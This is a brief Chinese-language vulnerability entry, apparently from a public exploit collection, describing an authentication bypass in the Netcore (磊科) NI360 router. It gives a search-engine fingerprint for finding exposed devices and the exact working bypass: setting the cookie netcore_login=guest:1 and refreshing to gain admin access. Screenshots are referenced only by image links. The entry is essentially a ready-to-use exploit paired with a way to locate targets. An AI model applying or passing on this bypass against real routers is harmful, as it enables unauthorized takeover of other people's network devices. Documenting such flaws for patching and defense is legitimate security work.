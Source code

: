 # 磊科 NI360路由器 认证绕过漏洞

## 漏洞描述

磊科 NI360路由器 存在认证绕过漏洞，通过添加特定的Cookie字段获取后台权限

## 漏洞影响

```
磊科 NI360路由器
```

## 网络测绘

```
title="Netcore"
```

## 漏洞描述

登录页面如下

![](./images/202202110949810.png)

添加 Cookie字段 : **netcore_login=guest:1**

刷新后登录后台

![](./images/202202110949667.png)